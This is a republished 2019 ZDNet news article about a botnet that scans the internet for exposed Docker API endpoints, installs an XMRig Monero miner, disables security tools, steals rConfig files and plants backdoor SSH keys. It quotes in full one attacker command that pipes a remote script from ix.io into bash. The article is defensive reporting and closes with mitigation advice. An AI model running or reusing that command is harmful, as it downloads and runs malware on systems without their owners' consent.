 ```yaml
---
title: 'A hacking group is hijacking Docker systems with exposed API endpoints'
date: 2019-11-26T03:31:00+01:00
draft: false
---
```


![Docker](https://zdnet2.cbsistatic.com/hub/i/2019/02/07/0ff7b41e-cfa3-4282-bcb8-2192012a5fae/14e37398dcede71776ea8b1a8b919f19/05-docker.png)

Image: Docker, ZDNet

A hacking group is currently mass-scanning the internet looking for Docker platforms that have API endpoints exposed online.

The purpose of these scans is to allow the hacker group to send commands to the Docker instance and deploy a cryptocurrency miner on a company's [Docker instances](https://en.wikipedia.org/wiki/Docker_(software)), to generate funds for the group's own profits.

### A professional operation

This particular mass-scanning operation started over the weekend, on November 24, and immediately stood out due to its sheer size.

"Users of the Bad Packets CTI API will note that exploit activity targeting exposed Docker instances is nothing new and happens quite often," Troy Mursch, CTO and co-founder of Bad Packets LLC, told ZDNet today.

"What set this campaign apart was the large uptick of scanning activity. This alone warranted further investigation to find out what this botnet was up to," he said.

"As others have noted \[[1](https://twitter.com/n0x08/status/1199108380326912001), [2](https://twitter.com/2sec4u/status/1199090117153116160)\], this isn't your average script kiddie exploit attempt," Mursch, who discovered the campaign, told us. "There was a moderate level of effort put into this campaign, and we haven't fully analyzed every single thing it does as of yet."

### What we know so far

What we know so far is that the group behind these attacks is currently scanning more than 59,000 IP networks (netblocks) looking for exposed Docker instances.

Once the group identifies an exposed host, attackers use the API endpoint to start an Alpine Linux OS container where they run the following command:

_chroot /mnt /bin/sh -c 'curl -sL4 http://ix.io/1XQa | bash;_

The above command downloads and runs a Bash script from the attackers' server. This script installs a classic XMRRig cryptocurrency miner. In the two days since this campaign has been active, hackers have already mined 14.82 Monero coins (XMR), worth just over $740, Mursch noted.

![docker-campaign-xmrhunter.png](https://www.zdnet.com/article/a-hacking-group-is-hijacking-docker-systems-with-exposed-api-endpoints/#ftag=RSSbaffb68)

<span><img src="https://zdnet1.cbsistatic.com/hub/i/2019/11/26/6a9cd3b9-7933-4125-b9b8-e2ecc580d2c8/a9e23f6e378e0d97e4dec1ddc65d8d7c/docker-campaign-xmrhunter.png" alt="docker-campaign-xmrhunter.png" /></span>

In addition, this malware operation also comes with a self-defense measure.

"One unoriginal but interesting function of the campaign is that it uninstalls known monitoring agents and kills a bunch of processes via a script downloaded from http://ix\[.\]io/1XQh," Mursch told us.

Looking through this script, we not only see that hackers are disabling security products, but they're shutting down lso processes associated with rival cryptocurrency-mining botnets, such as [DDG](https://blog.netlab.360.com/ddg-a-mining-botnet-aiming-at-database-server-en/).

In addition, Mursch also discovered a function of the malicious script that scans an infected host for [rConfig](https://www.rconfig.com/) configuration files, which it encrypts and steals, sending the files back to the group's command and control server.

Furthermore, Craig H. Rowland, founder of Sandfly Security, [has also noticed](https://twitter.com/CraigHRowland/status/1199140322007121921) that hackers are also creating backdoor accounts on the hacked containers, and leaving SSH keys behind for easier access, and a way to control all infected bots from a remote location.

For the time being, Mursch recommends that users and organizations who run Docker instances immediately check if they are exposing API endpoints on the internet, close the ports, and then terminate unrecognized running containers.

  
  
from Latest Topic for ZDNet in... https://ift.tt/2OkK1x6